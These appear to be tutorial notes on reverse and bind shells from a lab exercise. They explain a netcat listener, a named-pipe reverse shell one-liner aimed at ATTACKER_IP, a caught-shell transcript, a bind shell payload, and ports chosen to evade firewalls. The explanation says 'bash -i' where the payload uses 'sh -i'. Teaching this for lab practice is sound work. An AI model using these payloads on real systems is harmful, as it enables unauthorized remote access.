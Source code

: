## Reverse Shell
A reverse shell, sometimes referred to as a "connect back shell," is one of the most popular techniques for gaining access to a system in cyberattacks. The connections initiate from the target system to the attacker's machine, which can help avoid detection from network firewalls and other security appliances.

### How Reverse Shells Work
**Set up a Netcat (nc) Listener**

```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

- `-l`: listen for a connection  
- `-v`: verbose mode  
- `-n`: no DNS resolution  
- `-p`: specify port  

Common ports used: 53, 80, 8080, 443, 139, 445 (to blend with legitimate traffic).

### Example Reverse Shell Payload (Pipe Reverse Shell)

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

**Explanation:**
- `rm -f /tmp/f`: remove old pipe if exists  
- `mkfifo /tmp/f`: create named pipe  
- `cat /tmp/f`: read input from pipe  
- `| bash -i 2>&1`: pipe to interactive shell  
- `| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`: connect to attacker and redirect I/O  

### Attacker Receives the Shell
```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964

target@tryhackme:~$
```

---

## Bind Shell
A bind shell binds a port on the compromised system and listens for a connection. Once connected, it exposes a shell session to the attacker.

### Example Bind Shell Payload
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc -l 0.0.0.0 8080 > /tmp/f
```
